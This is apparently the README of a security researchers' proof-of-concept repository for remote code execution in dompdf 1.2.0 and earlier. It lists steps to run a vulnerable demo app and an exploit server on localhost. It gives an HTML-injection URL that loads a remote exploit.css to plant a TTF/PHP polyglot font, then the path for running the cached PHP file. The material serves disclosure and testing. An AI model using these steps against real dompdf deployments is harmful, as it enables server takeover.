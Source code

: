 # RCE exploit for dompdf <= 1.2.0

This repository contains a vulnerable demo application using dompdf 1.2.0 and an exploit that achieves remote code execution via a ttf+php polyglot file.
For more details, please visit https://positive.security/blog/dompdf-rce

## Instructions

1. Run the demo application
```
$ cd application
$ php -S localhost:9000
```

2. Run the exploit server
```
$ cd exploit
$ php -S localhost:9001
```

3. Trigger the exploit
```
http://localhost:9000/index.php?pdf&title=<link rel=stylesheet href='http://localhost:9001/exploit.css'>
```

4. Access the cached php "font" file and execute phpinfo()
```
http://localhost:9000/dompdf/lib/fonts/exploitfont_normal_3f83639933428d70e74a061f39009622.php
```

**Please note:** In case you're using different domains, please edit `exploit/exploit.css` accordingly and check `application/dompdf/lib/fonts` for the full font filename.
